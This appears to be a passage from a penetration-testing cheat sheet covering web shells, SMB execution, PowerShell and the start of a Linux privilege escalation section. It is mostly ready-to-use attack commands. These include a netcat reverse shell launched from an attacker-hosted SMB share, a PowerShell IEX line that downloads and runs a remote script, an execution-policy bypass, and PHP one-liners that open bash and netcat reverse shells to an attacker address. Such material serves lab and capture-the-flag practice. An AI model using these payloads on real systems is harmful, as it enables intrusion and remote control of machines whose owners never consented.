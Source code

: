 ```
$ export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Web shell + SMB exec
```
# Setup local share e.g. python3 ../smbserver.py EVILSHARE .
$ python3 /usr/share/doc/python3-impacket/examples/smbserver.py [sharename] [/path/to/share] 

# Execute netcat reverse shell within webshell
> \\[host]\share\nc.exe [host] [port] -e cmd.exe
```

Have a web shell? Check if server can reach you
```
$ sudo tcpdump -i tun0 -n icmp -v
```

CGI / Perl Web Server
* If web server is running CGI scripts, try Perl rshell payload -> change extension to `.cgi`.

Powershell
```
# Exec local PS script
cmd> powershell -executionpolicy bypass ".\rshell.ps1 arg1 arg2"

# Exec remote PS script
PS> IEX (New-Object System.Net.WebClient).DownloadString('http://[kali]/[script].ps1')
```

Powershell locations on 64bit Windows
```
# 32bit powershell
c:\windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe

# 64bit powershell
c:\windows\System32\WindowsPowerShell\v1.0\powershell.exe
C:\Windows\sysnative\WindowsPowershell\v1.0\powershell.exe
```

PHP shells / Bypass PHP disable functions
```
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/192.168.0.5/4444 0>&1'"); ?>

<?php echo shell_exec("nc [local] [port] -e cmd.exe"); ?>
```

## Linux Privilege Escalation

Tips:
* PE could rely on the same vulnerability to obtain an initial foothold.

Scripts
* [Linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

### SUDO Misconfigurations
